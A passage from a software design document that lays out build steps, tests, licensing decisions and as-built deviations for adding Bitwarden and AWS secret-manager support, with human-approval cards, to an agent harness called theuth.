    - with `…:send` removed and approvals off, the call runs without a card.
  - The ignored Vaultwarden suite: create from a local secret and from a `bw/` item with password
    `Ask`; open the link with the SDK's `SendReceiveClient::access_send`
    (`sdk@2b06afa:crates/bitwarden-send/src/receive_client.rs#L66`), which decrypts the same text;
    a second open → refused (max 1); revoke → the access fails; the vault link secret is gone.
  - Manual: one text Send from a free account on the official cloud (§12.6).
- **B5d — Bitwarden file Sends (§12.2–§12.3).** `file` / `as_file` / `file_name`: path, artifact
  (`ARTIFACT_ACTOR` `List`) and attachment sources (`get_attachment_download_url` + GET +
  `decrypt_buffer`); `create_file_send` + `upload_send_file` (Direct and Azure); orphan cleanup on
  upload failure; size cap (`send_max_file_mb`, the server limit); Premium-refusal mapping with the
  text-retry hint; the file preview lines on the card; upload progress events. *Check:*
  - `cargo test -p secrets-bitwarden`:
    - Direct and Azure against a mocked API (`wiremock` via `bitwarden_test::start_api_mock`, as the SDK's own tests do,
      `sdk@2b06afa:crates/bitwarden-send/src/create_file_send.rs#L354-L360`), including an Azure
      first PUT failing → renewal → success, and a second failure → the Send deleted;
    - an oversize file refused before any read;
    - an artifact from another session's tree → not found.
  - **Ignored suite against a local Vaultwarden container** (`vaultwarden/server`, with
    `SENDS_ALLOWED=true` and `USER_SEND_LIMIT=2048`):
    - a 1 MB file Send from an absolute path with password `Ask`, then open it with
      `SendReceiveClient::get_file_download_data` + `decrypt_send_access_file`
      (`sdk@2b06afa:crates/bitwarden-send/src/receive_client.rs#L75-L95`); the bytes match;
    - a 3 MB file → the server's quota refusal, mapped;
    - `SENDS_ALLOWED=false` → the mapped "disabled" error;
    - revoke → the download fails.
  - Manual: a file Send from a free cloud account → the Premium error with the text hint; the same
    from a Premium account succeeds through Azure.
- **B6 — Tools + prompt.** `tools_external.rs`, the `secret_request` destination, the forward of
  destination answers. *Check:* headless against the fake backend and, ignored, localstack:
  - `secret_external_list{}` raises no card;
  - `secret_external_list{connection: prod}` raises an always-ask card;
  - `secret_capture` → `secret_external_create` → `shell{command: "printf %s '{{secret:aws/prod/x}}' | wc -c"}`
    → the right length, and `messages.body` holds no value;
  - `secret_request` with a destination answered from a second engine's app stores on the first.
- **B7 — Desktop.** Connections section with four ask switches and the per-connection Settings
  disclosure, Settings › Secrets (harness-wide D20 keys), add stepper, browse with Delete / Deleted
  filter / Restore, Send dialog (text and file, native picker, artifact card action, "Send as text
  instead"), request card destination strip and picker, unlock card, Approvals labels, and the
  `lock_on_sleep` power observer (the desktop app sends sleep and screen-lock to the engine), and
  Reveal (D25) with its 30 s auto-hide and no caching. Tests check that Reveal is hidden when
  `allow_reveal` is off, and that the revealed value never lands in the query cache. *Check:* `bun run check`, `bunx vitest run` for the touched
  files (`SecretRequestCard.test.ts` fixture gains `destination`), no emoji test.
- **B8 — TUI and bridges.** `/secrets` connections, `u` / `l` / Enter / `y` / `i`, `/secrets
  connect`, destination line, unlock modal; Slack/Telegram/Signal notice line. *Check:* `cargo test
  -p tui` (the leak test gains an unlock case: the typed password never reaches the transcript or
  the screen buffer).
- **B6b — `secret_delete` (D24, §7.6).** The tool in `crates/secrets/src/tools.rs` over
  `Vault::delete`; the one-time seeding of the `secret_delete` always-ask entry; the prompt line.
  *Check:* `cargo test -p secrets -p tools`:
  - deleting a three-version secret removes every version, and the placeholder then fails with
    "unknown secret";
  - `confirm` ≠ current → refused, nothing deleted;
  - `oauth/x` and a Send link name are refused;
  - the card is always ask with approvals off;
  - removing the entry by press stops the card, and the entry is not re-seeded after a restart.
- **B9 — Docs and amendments.** 37 §11 marked superseded by this doc; 37 §3.1's `BACKEND/NAME` row;
  37 D5, §3.2 and §12 amended for `secret_delete` (D24);
  219 §2.1 gains the `secret:` key family; `harness.md` layout gains `logs/secrets-external.log`;
  README crate list and features. *Check:* `cargo clippy -D warnings` on touched crates; `cargo test
  --workspace`.
- **B10 — Release packaging (D22).** The release jobs build with `--features bitwarden`. They add:
  - a top-level `LICENSE` with the GPL-3.0 text (D26);
  - `license = "GPL-3.0-or-later"` in `[workspace.package]`, and `license.workspace = true` (or the
    same string) in every crate;
  - a `NOTICE` that says the binaries are GPL-3.0 works because they link
    `bitwarden/sdk-internal@2b06afa` under its GPL-3.0 option, with a pointer to the source and the
    exact pin;
  - `THIRD-PARTY-NOTICES` generated from the dependency tree (`cargo about generate` or an
    equivalent) and checked in for each release.

  The desktop bundle carries `LICENSE`, `NOTICE` and `THIRD-PARTY-NOTICES` in its resources and shows
  them under About. The `t` archives carry them beside the binary. `cargo deny check licenses`
  allows any GPL-3.0-compatible licence: GPL-3.0(-or-later), LGPL, MIT, Apache-2.0, BSD,
  ISC, Zlib, MPL-2.0, Unicode, CC0 and the like, plus `GPL-3.0-only OR LicenseRef-Bitwarden-SDK`
  taken under its GPL-3.0 option. It fails on anything incompatible, including a crate under the
  Bitwarden SDK licence alone. The GPL's source offer is met by the public repo at the
  release tag plus the pinned SDK commit.

  *Check:* a release dry run produces bundles that contain the three files; `cargo deny check
  licenses` passes; `cargo tree -e features -i bitwarden-pm` shows `no-memory-hardening` on and
  `bitwarden-license` off.

  *As built (deviation):* the `t` archives do **not** carry the three files. The self-updater's
  `unpack` (`crates/update/src/lib.rs#L557-L570`) refuses any tarball entry other than `t` and the
  helpers (the "unexpected" tarball-entry error), and that check is compiled into every installed `t`, so
  an extra entry would break self-update on every existing install; `release-s3.sh` also pins the
  members. Instead `t --licenses` prints the three texts (embedded with `include_str!`), and
  `release-s3.sh` publishes `LICENSE`, `NOTICE` and `THIRD-PARTY-NOTICES` as their own objects under
  `<ver>/`, listed in `SHA256SUMS`. The desktop bundle carries them as resources
  (`crates/desktop/tauri.conf.json`). `bitwarden` is a default feature of `theuth`, so the release
  scripts' plain `cargo build -p theuth` includes it. `THIRD-PARTY-NOTICES` comes from
  `scripts/third-party-notices.sh` (cargo-about, `about.toml`).

## 14. Open questions for the owner

None open. The last one, theuth's own source licence, is decided as GPL-3.0-or-later (D26).

## 15. As built

Where the build differs from the sections above, this list wins. Sources: the build's commit
messages, the B0 note (`docs/design/221-as-built-B0.md`) and the fix round on the reviews.

- **Migrations.** `0005_request_destination.sql` (the `secret_requests.destination` column) and
  `0006_external_sends.sql` (§12.4), not `0005_external_sends.sql`.
- **Placeholder regex.** Broader than the draft; `parse_ref` does the checking (§3.1 note).
- **SDK (B0).** The light SDK crate set; the user id comes from `client_id`; the server's CAS is
  coarse (revision date); Sends were checked against Vaultwarden 1.37.5. `argon2` is held at
  `=0.6.0-rc.8` to share the SDK's semver slot. Vaultwarden's 400 for a missing item maps to
  `NotFound`.
- **Backend trait.** `ExternalBackend` gained default methods `login`, `unlock`, `logout`,
  `apply_settings` and `sender`; `ListQuery.deleted` and `ExtEntry.recoverable_until` list the
  trash / pending deletions. `tools::Tool` gained `human_only(&self)`.
- **Copy sources.** `Vault::copy_source_allowed(&self, name)` (a method: it reads the current
  version's source) refuses `/` rows (`mesh/*`, `oauth/*`, `share/*`, `plugins/*`, `sandbox/*`) and
  Send link/password secrets as the `from` of `secret_external_create` / `_update` and the Send
  sources and `password.from`.
- **`send_owner_only`** is read per connection when the Send gate runs, from the Bitwarden backend's
  own settings (`SendBackend::send_owner_only`, through `Tool::human_only_for(args)`); no tool-wide
  switch.
- **Send ids.** `secret_send_revoke` / `revoke_send` and `copy_send_link` accept the
  `external_sends` row id as well as the link name and the Bitwarden Send id.
- **`remember_unlock` (D12).** With it on, every lock (manual, idle, on sleep), logout and rebuild
  deletes the sealed key, so after an idle lock the master password is needed again.
- **Owner RPCs and the press.** `delete_external_secret`, `restore_external_secret`, `create_send`
  and `revoke_send` take the caller: the owner's own press runs directly; any other caller (the
  TUI over the internal connection, a share guest) gets a human-only card
  (`secrets.external.delete`, `secrets.external.restore`, `secrets.create_send`,
  `secrets.revoke_send`) while the connection's `…:delete` / `…:write` / `…:send` always ask is in
  force, and `create_send` also while `send_owner_only` is on; it proceeds only on the owner's
  approval. `copy_send_link` returns the link to the internal peer or a share guest only after the
  owner approves the human-only card `secrets.copy_send_link`, whatever `copy_link_needs_press`
  says. Every always-ask lookup in these RPCs fails closed (no registry, or a registry error,
  asks).
- **Seeding.** The `ext/seeded/<conn>` stamp is written only after `seed_ask` ran. With
  `secrets.tools: false` connections are built unseeded (nothing reads placeholders) and seeded on
  the first start with the tools on.
- **Scrubbing external values.** At most 256 fetched values are kept for scrubbing, most recently
  used last; a value shorter than `MIN_REDACT` (8) characters is never kept, and the
  `secret_external_*` descriptions say such values are not scrubbed.
- **Storing an answer into a manager.** A `Network`, `Timeout`, `Locked` or `Conflict` failure keeps
  the request open (not answered) and returns "…; the request is still open: try again"; other
  failures answer it as `failed` with the error as the receipt.
- **D15 forward.** `answer_secret` for an unanswered destination request asked on another engine
  is forwarded to that engine through `secrets::rpc::install_engine_forward` (the RPC composition
  installs `agent::rpc_forward::to_engine`); without the hook the old "answer it there" refusal
  stands. `answer_unlock` is not forwarded: unlock cards are not replicated and
  `secrets.events` is not relayed across the mesh, so a card only reaches apps attached to the
  engine that raised it, which answer it there.
- **Unlock cards.** One card per connection at a time: concurrent calls on a locked connection
  wait behind it and share its outcome. `list_unlock_requests()` returns the open cards
  (`UnlockRequestView`, the `ExternalUnlockRequested` fields) so an app reseeds after a reconnect.
- **Server URLs.** Every Bitwarden URL (`base_url`, `api_url`, `identity_url`, `web_vault_url`)
  must be `https://`, or `http://` to a loopback host; checked at add, probe and build.
- **`secret_external_list` without `connection`** names the connections, status and account
  summaries from config, contacts no manager and asks nothing.
- **AWS update** is check-then-put: `PutSecretValue` has no version precondition, so a writer
  landing between the `expected` check and the put is overwritten (its value stays reachable as
  `:-1` until the next write).
- **Desktop.** No CA-file field (the backends take no `ca_file`). `list_aws_profiles` returns no
  regions, so the AWS region is not defaulted from the profile. `lock_after_idle_secs` and
  `send_max_file_mb` have no UI clamps beyond AWS's 7–30 day recovery window.
- **Packaging (B10).** See the B10 deviation above: the `t` archives do not carry the licence
  files.
